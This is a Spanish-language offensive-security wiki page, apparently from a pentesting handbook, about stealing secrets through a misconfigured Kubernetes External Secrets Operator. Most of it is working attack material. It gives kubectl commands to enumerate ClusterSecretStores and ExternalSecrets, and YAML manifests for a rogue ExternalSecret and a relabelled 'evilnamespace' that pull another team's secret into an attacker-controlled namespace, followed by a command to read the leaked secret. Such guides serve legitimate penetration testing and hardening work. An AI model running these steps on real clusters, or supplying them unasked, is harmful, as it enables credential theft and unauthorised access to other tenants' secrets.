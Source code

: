 # External Secret Operator

**El autor original de esta página es** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Esta página ofrece algunas indicaciones sobre cómo puedes robar secretos de un ESO mal configurado o de una aplicación que utiliza ESO para sincronizar sus secretos.

## Disclaimer

La técnica mostrada a continuación solo puede funcionar cuando se cumplen ciertas circunstancias. Por ejemplo, depende de los requisitos necesarios para permitir que un secreto se sincronice en un espacio de nombres que posees / has comprometido. Necesitas averiguarlo por ti mismo.

## Prerequisites

1. Un punto de apoyo en un clúster de kubernetes / openshift con privilegios de administrador en un espacio de nombres
2. Acceso de lectura a al menos ExternalSecret a nivel de clúster
3. Averigua si hay etiquetas / anotaciones o membresía de grupo requeridas que permitan a ESO sincronizar tu secreto. Si tienes suerte, puedes robar libremente cualquier secreto definido.

### Gathering information about existing ClusterSecretStore

Suponiendo que tienes un usuario que tiene suficientes derechos para leer este recurso; comienza por listar primero los _**ClusterSecretStores**_ existentes.
```sh
kubectl get ClusterSecretStore
```
### Enumeración de ExternalSecret

Supongamos que encontraste un ClusterSecretStore llamado _**mystore**_. Continúa enumerando su externalsecret asociado.
```sh
kubectl get externalsecret -A | grep mystore
```
_Este recurso está limitado al espacio de nombres, así que a menos que ya sepas en qué espacio de nombres buscar, agrega la opción -A para buscar en todos los espacios de nombres._

Deberías obtener una lista de externalsecret definidos. Supongamos que encontraste un objeto externalsecret llamado _**mysecret**_ definido y utilizado por el espacio de nombres _**mynamespace**_. Reúne un poco más de información sobre qué tipo de secreto contiene.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Assembling the pieces

Desde aquí puedes obtener el nombre de uno o varios nombres de secretos (como se define en el recurso Secret). Obtendrás una salida similar a:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Hasta ahora hemos obtenido:

- Nombre de un ClusterSecretStore
- Nombre de un ExternalSecret
- Nombre del secreto

Ahora que tenemos todo lo que necesitamos, puedes crear un ExternalSecret (y eventualmente parchear/crear un nuevo Namespace para cumplir con los requisitos necesarios para sincronizar tu nuevo secreto):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Después de unos minutos, si se cumplieron las condiciones de sincronización, deberías poder ver el secreto filtrado dentro de tu espacio de nombres.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referencias

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
